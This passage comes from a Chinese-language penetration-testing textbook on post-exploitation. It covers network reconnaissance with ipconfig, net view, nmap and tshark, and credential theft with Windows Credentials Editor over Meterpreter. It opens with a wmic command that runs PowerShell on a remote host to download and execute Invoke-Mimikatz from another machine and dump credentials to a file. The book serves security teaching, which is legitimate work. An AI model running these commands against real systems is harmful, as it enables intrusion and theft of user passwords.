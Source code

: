 ```
wmic /USER:"domain\user" /PASSWORD:"Userpassword" /NODE:10.10.10.4 process call create "powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.12/Invoke-Mimikatz.ps1'); Invoke-MimiKatz -DumpCreds | Out-File C:\\users\\public\\creds.txt 
```

侦察工作还应扩展到本地网络。由于你是在盲目操作，你需要创建一个与受感染主机可以通信的实时系统和子网的映射。首先，在 shell 提示符下输入 `IFCONFIG`（基于 Unix 的系统）或 `IPCONFIG /ALL`（Windows 系统）。这将允许攻击者确定以下信息：

+   是否启用了 DHCP 地址分配。

+   本地 IP 地址，这也会识别至少一个活动子网。

+   网关 IP 地址和 DNS 服务器地址。系统管理员通常在整个网络中遵循编号约定，如果攻击者知道一个地址，例如网关服务器`10.10.10.1`，他们会 ping 其他地址，如`10.10.10.100`，`10.10.10.5`等，以查找额外的子网。

+   用于利用 Active Directory 账户的域名。

如果攻击系统和目标系统都在使用 Windows，可以使用`net view`命令枚举网络上的其他 Windows 系统。攻击者使用`netstat -rn`命令来查看路由表，其中可能包含对感兴趣的网络或系统的静态路由。

可以使用`nmap`扫描本地网络，该工具会嗅探 ARP 广播。此外，Kali 还有几个工具可用于 SNMP 端点分析，包括`nmap`、`onesixtyone`和`snmpcheck`。

部署数据包嗅探器以映射流量将帮助您识别主机名、活动子网和域名。如果未启用 DHCP 寻址，还将允许攻击者识别未使用的静态 IP 地址。Kali 预装了 Wireshark（基于 GUI 的数据包嗅探器），但您也可以从命令行或后渗透脚本中使用`tshark`，如图 11.21 所示：

![](img/B17765_11_21.png)

图 11.21：运行 tshark 来嗅探网络并识别主机

### Windows 凭证编辑器

**Windows Credentials Editor** (**WCE**)可以从[`www.ampliasecurity.com/research/windows-credentials-editor/`](https://www.ampliasecurity.com/research/windows-credentials-editor/)下载。

使用 Meterpreter shell，您可以将`wce.exe`上传到已被入侵的系统，如图 11.22 所示。一旦文件上传到系统，运行 Meterpreter 会话中的`shell`命令，这将授予对被入侵系统的终端访问。要验证 WCE 是否成功，请运行`wce.exe -w`以列出所有用户的登录会话及明文密码：
